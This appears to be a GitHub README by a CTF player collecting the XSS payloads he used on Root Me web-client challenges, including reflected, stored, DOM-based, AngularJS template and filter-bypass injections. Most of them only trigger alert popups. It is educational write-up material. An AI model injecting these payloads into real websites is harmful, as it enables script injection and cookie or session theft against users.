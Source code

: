 
# 🛡️ RootMe XSS Payloads Showcase

This is a documentation of XSS tests I performed on the [Root Me](https://www.root-me.org) platform. The purpose is to demonstrate the existence of XSS vulnerabilities using a **simple alert popup**, without any malicious exploitation.

---

## 🔁 Reflected XSS
- 🔗 [Challenge](https://www.root-me.org/en/Challenges/Web-Client/XSS-Reflected)  
  📌 Payload:
  ```html
  ' autofocus onfocus=alert(document.cookie) x="
  ```

---

## 📝 Stored XSS 1
- 🔗 [Challenge](https://www.root-me.org/en/Challenges/Web-Client/XSS-Stored-1)  
  📌 Payload:
  ```html
  <img src=x onerror=alert(1)>
  ```

---

## 📝 Stored XSS 2
- 🔗 [Challenge](https://www.root-me.org/en/Challenges/Web-Client/XSS-Stored-2)  
  📌 Inject in Cookie "status":
  ```html
  "><img src=x onerror=alert(1)>
  ```

---

## 🎭 Stored XSS - Filter Bypass
- 🔗 [Challenge](https://www.root-me.org/en/Challenges/Web-Client/XSS-Stored-filter-bypass)  
  📌 Payload (JSFuck style):
  ```html
  <button autofocus onfocus=(eval)(JSFuck_Payload_Here)></button>
  ```

---

## 🧭 DOM XSS - Introduction
- 🔗 [Challenge](https://www.root-me.org/en/Challenges/Web-Client/XSS-DOM-Based-Introduction)  
  📌 Payload:
  ```js
  '-alert(1)-'
  ```

---

## ⚙️ DOM XSS - AngularJS
- 🔗 [Challenge](https://www.root-me.org/en/Challenges/Web-Client/XSS-DOM-Based-AngularJS)  
  📌 Payload:
  ```html
  {{constructor.constructor("alert(1)")()}}
  ```

---

## 💻 DOM XSS - Eval
- 🔗 [Challenge](https://www.root-me.org/en/Challenges/Web-Client/XSS-DOM-Based-Eval)  
  📌 Payload:
  ```js
  1+1+alert`XSS`
  ```

---

## 🔎 DOM XSS - Filters Bypass
- 🔗 [Challenge](https://www.root-me.org/en/Challenges/Web-Client/XSS-DOM-Based-Filters-Bypass)  
  📌 Payload:
  ```js
  '-alert(1)-'
  ```

---

## 🔐 Self XSS - DOM Secrets
- 🔗 [Challenge](https://www.root-me.org/en/Challenges/Web-Client/Self-XSS-DOM-Secrets)  
  📌 Payload:
  ```html
  document.write('<script>alert(1)</script>');
  ```

---

## 🕒 Self XSS - Race Condition
- 🔗 [Challenge](https://www.root-me.org/en/Challenges/Web-Client/Self-XSS-Race-Condition)  
  📌 Payload:
  ```html
  element.innerHTML='<img src=1 onerror=alert(document.domain)>'
  ```

---

## ⚠️ Notes
- All payloads are intended for educational purposes only.
- No actual data was stolen or maliciously used.
- The goal is to show the existence of the XSS vulnerabilities in a harmless way.

---

## 🧠 Further Learning
- [PortSwigger XSS Academy](https://portswigger.net/web-security/cross-site-scripting)
- [XSS Cheat Sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

---

**Bruno - 2025**
